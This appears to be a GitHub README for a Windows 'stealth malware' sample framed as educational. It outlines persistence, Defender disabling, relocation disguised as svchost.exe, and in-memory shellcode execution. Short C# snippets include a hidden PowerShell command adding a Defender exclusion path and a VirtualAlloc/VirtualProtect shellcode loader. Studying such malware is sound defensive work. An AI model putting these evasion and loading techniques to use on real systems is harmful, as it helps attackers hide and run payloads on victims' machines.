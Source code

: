# 🔍 Windows Stealth Malware Analysis Project

This project demonstrates techniques used by stealthy malware for educational and research purposes, including:
- 🔐 Process relocation and persistence mechanisms
- 🛡️ Security evasion techniques
- 📁 Registry and filesystem manipulation
- 🧠 In-memory shellcode execution
- 🚫 Anti-debugging techniques

---

## ⚠️ IMPORTANT: Educational Purpose Only

This code is provided **STRICTLY FOR EDUCATIONAL PURPOSES** to demonstrate malware techniques for analysis and research. Running this code on systems without proper isolation may cause:
- Disabling of security features
- Unauthorized system changes
- Potential execution of embedded shellcode
- System compromise

**Always analyze in a secure, isolated environment such as a virtual machine with no network access.**

---

## ⚙️ Features Demonstrated

This sample demonstrates various malware techniques:

- **Process Persistence**
  - Registry autorun entries
  - Scheduled task creation
  - Startup folder shortcuts
  - VBS script launchers for silent execution

- **Defense Evasion**
  - Windows Defender disabling attempts
  - AV exclusion path configuration
  - Admin privilege escalation
  - Hidden execution techniques

- **Stealth Techniques**
  - Self-relocation to system directories
  - Anti-debugging checks
  - Silent error handling
  - Hidden process execution

- **Payload Execution**
  - AES encrypted shellcode
  - Memory allocation for code execution
  - Dynamic memory protection changes
  - Direct thread execution

---

## 🔧 Technical Analysis Setup

### Prerequisites

- Windows 10/11 VM (isolated from network)
- Visual Studio 2022 with .NET support
- DNSPY or other .NET decompiler
- Process Monitor and Process Explorer
- Wireshark (for network analysis)

### Step 1: Create an Isolated Analysis Environment

```powershell
# Enable Hyper-V if not already enabled
Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Hyper-V -All

# Create a new VM with no network access for safe analysis
New-VM -Name "MalwareAnalysisVM" -MemoryStartupBytes 4GB -Generation 2
```

### Step 2: Set Up Project for Analysis

Clone this repository and open in Visual Studio:

```bash
git clone https://github.com/yourusername/malware-analysis-project.git
cd malware-analysis-project
```

Review the key components:
- `Program.cs` - Main malware logic
- `app.manifest` - Requests admin privileges
- `MyMalwareApp.csproj` - Project configuration

### Step 3: Build with Required Admin Rights

The project uses an application manifest to request elevated privileges:

```xml
<!-- app.manifest -->
<requestedExecutionLevel level="requireAdministrator" uiAccess="false" />
```

Build the project:

```bash
dotnet publish -c Release -r win-x64 --self-contained true \
  -o analysis-build \
  /p:PublishSingleFile=true \
  /p:IncludeNativeLibrariesForSelfExtract=true
```

---

## 📊 Analysis Techniques

### Static Analysis

1. **Code Review**
   - Identify API calls related to memory manipulation
   - Locate system persistence mechanisms
   - Find encrypted content and decryption routines

2. **Resource Examination**
   - Check for embedded payloads in resources
   - Review application manifest for privilege requests
  
3. **String Analysis**
   - Search for registry keys
   - Identify filesystem paths
   - Look for command execution patterns

### Dynamic Analysis

1. **Process Monitoring**
   - Use Process Monitor to track filesystem/registry changes
   - Monitor child process creation
   - Watch for memory allocation patterns

2. **Debugging Techniques**
   - Bypass anti-debugging checks
   - Set breakpoints at key functions
   - Inspect memory at shellcode execution

3. **Network Analysis**
   - Monitor for connection attempts
   - Identify command and control patterns
   - Capture post-exploitation traffic

---

## 🧠 Code Breakdown

### Process Relocation Logic

```csharp
// Checks if this is initial run or relocated instance
if (isPayloadInstance || currentFilePath.Equals(destPath, StringComparison.OrdinalIgnoreCase))
{
    // Execute payload
}
else
{
    // Handle relocation to %AppData%\Microsoft\Windows\svchost.exe
}
```

### Persistence Mechanisms

```csharp
// Uses multiple persistence methods
bool scheduled = TryCreateScheduledTask(destPath);
if (!scheduled)
{
    // Fallback to registry persistence
    SetRegistryPersistence(destPath);
}
```

### AV Evasion Techniques

```csharp
// Attempts to disable Windows Defender
TryDisableDefender();

// Creates exclusion paths
ProcessStartInfo psi2 = new ProcessStartInfo
{
    FileName = "powershell.exe",
    Arguments = $"-WindowStyle Hidden -Command Add-MpPreference -ExclusionPath '{folderPath}' -Force"
    // ...
};
```

### Shellcode Execution

```csharp
// Memory allocation and execution
IntPtr baseAddress = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, MEM_COMMIT, PAGE_READWRITE);
// Copy shellcode
Marshal.Copy(shellcode, 0, baseAddress, shellcode.Length);
// Change protection and execute
VirtualProtect(baseAddress, (UIntPtr)shellcode.Length, PAGE_EXECUTE_READWRITE, out oldProtect);
```

---

## 📚 Further Reading

- [OWASP Secure Coding Practices](https://owasp.org/www-project-secure-coding-practices-quick-reference-guide/)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [Microsoft Security Response Center](https://www.microsoft.com/en-us/msrc)
- [Malware Analysis Techniques](https://github.com/rshipp/awesome-malware-analysis)

---

## 🛡️ Responsible Use

This project is provided solely for defensive security research, education and awareness. Understanding how malware operates is essential for developing stronger defenses and detection mechanisms.

Never use these techniques for unauthorized system access or malicious purposes.

